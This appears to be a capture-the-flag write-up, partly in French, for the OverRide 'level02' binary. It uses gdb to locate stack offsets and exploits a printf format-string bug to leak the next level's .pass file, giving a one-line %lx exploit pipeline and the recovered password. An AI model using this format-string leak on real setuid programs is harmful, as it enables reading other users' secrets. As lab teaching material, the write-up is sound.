 # level02

By looking at the code and with `file` command, we can see that the program is for x64 architecture:

```bash
level02@OverRide:~$ file level02 
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

The program read the `.pass` file of the next level. To debug it in gdb, we simply replace it with `tmp/.pass`.

When reading it, the program make checks that the length must be equal to 41.


Description simplifier:

Le binaire lit le fichier .pass du level suivant (/home/users/level03/.pass).
Nous l'avons remplacer par /tmp/.pass.
Le contenu du fichier est un peu controler pour voir si il peut etre authentique.
Il devra au moins respecter la regle suivante:
41 caracteres diffents de '\n' et un '\n'
Pour ma part, j ai creer le fichier comme ceci:
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHIJL" > /tmp/.pass
la commande echo creer un '\n' automatiquement en fin de la chaine de charactere.

Il y a deux fgets(), mais seul le premier sera utile.

Le premier fgets() va etre afficher a la fin du binaire a l'aide d'un printf().

Le premier parametre du printf va etre notre premiere input, ce qui represente une faille de securite, nous pouvons donc examiner la stack a partir de $esp avec des arguments tels que %p, %lx ...

Afin de pouvoir afficher le contenu des 30 * 16 premiers bytes de la stack j ai rentrer cette chaine de characteres dans la premiere input:
"%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p "

 et une chaine de characteres vide dans la deuxieme input:

Si nous examinons la stack frame a partir de $rsp juste avant le printf nous pouvons voir que les adresses ne sont pas coherentes car printf va rajouter des bytes sur la stack frame en creant d autres stack frames dans ses fonctions, mais nous avons une idee de ce que nous pourrons recuperer avec les Direct Access Parameters de printf().

Vu que nous savons ce que contient le fake fichier .pass, nous pouvons observer son contenu sur la stack et dans les direct access parameters en format little indian, nous devons retenir les numeros des Direct Access Parameter.
Dans notre cas ce sont les numero 22, 23, 24, 25, 26, 27.

Nous pouvons avoir un apercu avec cette commande :
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHIJL" > /tmp/.pass && gdb ./level02 -batch -ex "file level02" -ex "set exec-wrapper env -u LINES -u COLUMNS" -ex "set disassembly-flavor intel" -ex "b *main+4" -ex "b *main+148" -ex "b *main+237" -ex "b *main+453" -ex "b *main+523" -ex "b *main+654" -ex "r <<< '%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p'" -ex "echo Debut de la memoire allouee:\n" -ex "x/wx \$rsp" -ex "ni" -ex "echo Fin de la memoire allouee:\n" -ex "x/wx $esp" -ex "c" -ex "echo Path du fichier de base:\n" -ex "x/s 0x400bb2" -ex 'set $rdi="/tmp/.pass"' -ex "echo Path du fichier modifier:\n" -ex 'x/s $rdi' -ex "c" -ex 'x/s $rdi' -ex "c" -ex 'x/s $rdi' -ex "c" -ex 'x/s $rdi' -ex "c" -ex "echo (gdb) x/152bx \$rsp\n" -ex "x/152bx $rsp" -ex "echo Printf Direct Access Parameters:\n" -ex "c"

Breakpoint 1 at 0x400818
Breakpoint 2 at 0x4008a8
Breakpoint 3 at 0x400901
Breakpoint 4 at 0x4009d9
Breakpoint 5 at 0x400a1f
Breakpoint 6 at 0x400aa2
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000000000400818 in main ()
Debut de la memoire allouee:
0x7fffffffe5e0: 0x00000000
0x000000000040081f in main ()
Fin de la memoire allouee:
0x7fffffffe5e4: 0x00000000

Breakpoint 2, 0x00000000004008a8 in main ()
Path du fichier de base:
0x400bb2:        "/home/users/level03/.pass"
Path du fichier modifier:
0x602010:        "/tmp/.pass"

Breakpoint 3, 0x0000000000400901 in main ()
0x7fffffffe540:  ""
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/

Breakpoint 4, 0x00000000004009d9 in main ()
0x7fffffffe570:  ""

Breakpoint 5, 0x0000000000400a1f in main ()
0x7fffffffe4d0:  ""
--[ Username: --[ Password: *****************************************

Breakpoint 6, 0x0000000000400aa2 in main ()
(gdb) x/152bx $rsp
0x7fffffffe4d1: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4d9: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4e1: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4e9: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4f1: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4f9: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe501: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe509: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe511: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe519: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe521: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe529: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe531: 0x00    0x00    0x00    0x01    0x00    0x00    0x00    0x00
0x7fffffffe539: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x41
0x7fffffffe541: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe549: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe551: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe559: 0x41    0x41    0x41    0x41    0x41    0x41    0x42    0x43
0x7fffffffe561: 0x44    0x45    0x46    0x47    0x48    0x49    0x4a    0x4c
Printf Direct Access Parameters:
0x7fffffffe4d0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6c8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4241414141414141 0x4a49484746454443 0x4c 0x7025207025207025 0x2520702520702520 0x2070252070252070 does not have access!
[Inferior 1 (process 24614) exited with code 01]



Nous pouvons donc recuperer le contenu du fichier .pass du level3 avec cette commande:
(python -c 'print "%22$lx %23$lx %24$lx %25$lx %26$lx %27$lx"') | ./level02 | tail -n 1 | tr ' ' '\n' | head -n 5 | fold -w2 | tr -d '\n' >/tmp/test && dd conv=swab if=/tmp/test of=/tmp/result 2>/dev/null && cat /tmp/result | fold -w 16 | rev | tr -d '\n' | xxd -r -p; echo ""

et le resultat est:
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

Explication de la commande finale:
(python -c 'print "%22$lx %23$lx %24$lx %25$lx %26$lx %27$lx"'): Afficher les bytes du fichier .pass
./level02: Le binaire en question
tail -n 1: On affiche que les bytes du fichier .pass (qui sont en little indian) en enlevant le superflu
tr ' ' '\n: On remplace les ' ' par des '\n'
head -n 5: On enleve encore un peu de superflu
fold -w2: On met un '\n' tout les 2 chars
tr -d '\n' >/tmp/test: On enleve les '\n' et on met le resultat dans /tmp/test
dd conv=swab if=/tmp/test of=/tmp/result 2>/dev/null: On swap les char 2 par 2 et on n'affiche pas la sortie d erreur
cat /tmp/result: On recupere le resultat
fold -w 16: on met un '\n' tout les 16 chars
rev: On inverse les strings lignes par lignes
tr -d '\n': On enleve les '\n'
xxd -r -p: On converti chaque element de la chaine en ascii
